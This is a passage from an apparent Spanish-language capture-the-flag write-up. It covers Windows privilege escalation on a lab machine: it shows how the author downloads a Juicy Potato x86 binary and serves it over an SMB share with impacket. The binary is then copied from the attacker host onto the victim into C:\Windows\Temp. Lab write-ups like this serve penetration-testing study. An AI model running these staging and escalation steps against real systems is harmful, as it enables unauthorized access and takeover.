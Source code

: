 ```bash
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::250
```

por lo tanto nesecitamos descargar una juicy potato de x86 si no, no podremos escalar. Asi que yo descargare dicho binario de esta url

```bash
https://github.com/ivanitlearning/Juicy-Potato-x86/releases
```

una vez descargado renombrare el binario a jp.exe y transferiremos dicho binario a la maquina victima. Asi que ejecutare un servidor de smb en mi maquina de esta manera

```bash
❯ ls
 allPorts   Juicy.Potato.x86.exe   shell.aspx   Targeted  

❯ mv Juicy.Potato.x86.exe jp.exe                  

❯ impacket-smbserver devel .  
Impacket v0.9.24.dev1+20210906.175840.50c76958 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

luego ire a una carpeta donde tenga permisos de lectura y escritura como C:\Windows\Temp

y copiare el binario en dicha carpeta

```bash
copy \\10.10.14.29\\devel\jp.exe .
copy \\10.10.14.29\\devel\jp.exe .
        1 file(s) copied.
```
